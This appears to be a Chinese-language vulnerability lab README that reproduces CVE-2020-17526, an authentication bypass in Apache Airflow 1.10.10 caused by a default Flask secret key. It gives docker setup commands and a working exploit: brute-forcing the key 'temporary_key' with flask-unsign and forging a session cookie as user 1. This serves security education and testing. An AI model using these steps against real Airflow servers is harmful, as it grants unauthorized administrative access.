 # Apache Airflow 默认密钥导致的权限绕过（CVE-2020-17526）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- <https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0>
- <https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise>

## 漏洞环境

执行如下命令启动一个Apache Airflow 1.10.10服务器：

```bash
#Initialize the database
docker compose run airflow-init

#Start service
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`即可查看到登录页面。

## 漏洞利用

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![](1.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
flask-unsign -u -c [session from Cookie]
```

![](2.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![](3.png)

在浏览器中使用这个新生成的session，可见已成功登录：

![](4.png)
